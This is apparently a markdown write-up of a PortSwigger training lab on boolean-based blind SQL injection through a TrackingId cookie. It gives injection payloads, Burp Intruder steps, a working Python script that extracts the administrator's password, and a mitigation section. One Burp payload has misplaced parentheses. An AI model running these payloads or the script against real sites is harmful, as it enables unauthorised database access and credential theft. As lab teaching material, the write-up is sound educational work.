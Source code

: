 # 🧪 Lab 11: Blind SQL Injection with Conditional Responses Solution

**PortSwigger Lab Link:** [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses]

**Table of Contents:**
* 1. Lab Description
* 2. Vulnerability
* 3. Exploitation Steps
* 4. Python Automation Code
* 5. Key Learnings/Concepts
* 6. Mitigation

---

## 1. Lab Description

This lab introduces **Blind SQL Injection** where the server does **not** return direct data or errors. The vulnerability is found in the **`TrackingId` cookie**. The **oracle** (true/false indicator) is a **"Welcome back" message** displayed on the page if the injected condition is true, and no message if the condition is false. The goal is to **dump the administrator's password**.

---

## 2. Vulnerability

The vulnerability is **Boolean-based Blind SQL Injection**. The application uses input from the `TrackingId` cookie in an SQL query, allowing an attacker to append a logical condition (`AND`) that controls a noticeable application response (the "Welcome back" message).

* **Test 1 (True Condition):** `TrackingId=0987abc' AND 1=1--` $\implies$ Get "Welcome back" because `1=1` is true.
* **Test 2 (False Condition):** `TrackingId=0987abc' AND 1=2--` $\implies$ Do not get "Welcome back" because `1=2` is not true.

---

## 3. Exploitation Steps

### 🔹 Step 1: Find Password Length (Brute-force/Sniper)

The first step is to find the length of the password using the `LENGTH()` function.

1.  **Burp Intruder Setup (Sniper):** Send the request to Intruder. Set the attack type to **Sniper**.
2.  **Payload Position:** Select the number `N` in the payload (using `§N§`):
    ```sql
    ' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = N--
    ```
3.  **Payload Settings:** Set Payload type to **Numbers**, From `1`, To `100`.
4.  **Grep Match:** In **Options $\rightarrow$ Grep - Match**, clear pre-existing lists and add the string `"Welcome back!"`.
5.  **Result:** The request where `"Welcome back"` is displayed indicates the correct length.
    * 📌 **The Password Length is found to be 20**.

### 🔹 Step 2: Extract Password Characters (Burp Cluster Bomb)

Now we need to extract the characters one by one (1st, then 2nd, up to 20th) using the `SUBSTRING()` method.

1.  **Burp Intruder Setup (Cluster Bomb):** Change attack type to **Cluster Bomb**.
2.  **Payload Structure (2 Positions):** The general idea is to check if `SUBSTRING(...)` at position `I` equals character `C`.
    ```sql
    ' AND (SELECT SUBSTRING(password FROM users WHERE username='administrator'), §I§, 1) = '§C§'--
    ```
3.  **Payload Set 1 (Position - `I`):**
    * Payload Type: **Numbers**.
    * From: `1`, To: `20`, Step: `1`.
4.  **Payload Set 2 (Character - `C`):**
    * Payload Type: **Brute Forcer**.
    * Character Set: `abcd...WXYZ012...89` (or the known alphanumeric set).
    * Min/Max Length: `1`.
5.  **Start Attack:** After completing the attack, sort the results by the **Grep Match** column (presence of "Welcome back!"). The successful `(I, C)` pairs reveal the password.

### 🔹 Step 3: Log In and Solve the Lab

1.  Use the extracted 20-character password with the username `administrator`.
2.  Log in to solve the lab.

---

## 4. Python Automation Code

Automation is the easiest way to solve this large brute-force task.

```python
import requests

# Base parameters (Change these for the specific lab instance)
url = '[https://0a54....web-security](https://0a54....web-security)..../filter?category=Lifestyle'  # Example URL
# Define a comprehensive character set
characters = '1234567890abcdefghijklmnopqrstuvwxyz' 

# Base cookie values (Must be copied from Burp for a fresh session)
base_cookie = {'TrackingId':'0987abc', 'session':'0123xyz'} # Example values


def get_length():
    print("Finding password length...")
    for i in range(1, 101): # Check length up to 100
        # Payload for guessing length
        payload = f"' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = {i}--"
        
        # Construct the cookie with the payload
        cookie = base_cookie.copy()
        cookie['TrackingId'] = cookie['TrackingId'] + payload # Append payload to TrackingId
        
        r = requests.get(url, cookies=cookie)
        
        if 'Welcome back!' in r.text: # The oracle condition
            return i
    return None

def get_data(length):
    dumped_password = ""
    print(f"Dumping Data... Please wait.") #
    
    for i in range(1, length + 1): # Iterate through each character position (1 to length)
        temp = ""
        for char in characters:
            # Payload for guessing character C at position I (Note: SQL index starts at 1)
            payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{char}'--"
            
            # Construct the cookie
            cookie = base_cookie.copy()
            cookie['TrackingId'] = cookie['TrackingId'] + payload
            
            r = requests.get(url, cookies=cookie)
            
            if 'Welcome back!' in r.text:
                dumped_password += char
                temp += char
                print(f"\rPassword: {dumped_password}", end="") # Print progressively
                break # Move to the next character position

    print(f"\nGot it! Data: {dumped_password}") # Final result
    return dumped_password

# --- Execution ---
length = get_length()
if length:
    print(f"Password Length: {length}") #
    admin_password = get_data(length)
else:
    print("Could not determine length.")
```
## 6. Key Learnings/Concepts

Blind SQL Injection: This is necessary when the application hides database data and errors.

Boolean Oracle: The success of the attack hinges on a single, binary difference in the application's response (e.g., the presence or absence of a specific message).

Sequential Information Retrieval: Blind SQLi is a methodical, automated process of asking a thousand simple true/false questions to extract complex information, one piece at a time.

Core SQL Functions:

LENGTH(string): Returns the length of a string.

SUBSTRING(string, start, length): Extracts a substring starting at the specified position (start index is typically 1, not 0).

Automation is Key: Due to the large number of requests required, tools like Burp Intruder (Cluster Bomb attack type) or custom scripts (like Python requests) are essential for efficiency.

## 7. Mitigation
Preventing Blind SQL Injection requires layered defense:

Parameterized Queries (Prepared Statements): The primary defense. This ensures the entire TrackingId value is treated as inert data and cannot be executed as part of the SQL logic.

Input Validation: Strictly validate and sanitize all input (even in cookies and headers). Reject any data in the TrackingId cookie that contains SQL special characters (', --, AND, etc.).

Generic Responses: The application should be designed so that its output is identical, regardless of the success or failure of a benign, non-data-returning query. If the backend query returns a different status for true/false, the application must normalize the visible output to prevent it from becoming an oracle.

Least Privilege: Configure the database connection used by the web application to have the minimum necessary permissions. The application should not be able to query the users table or sensitive data if its job is only to display product information.
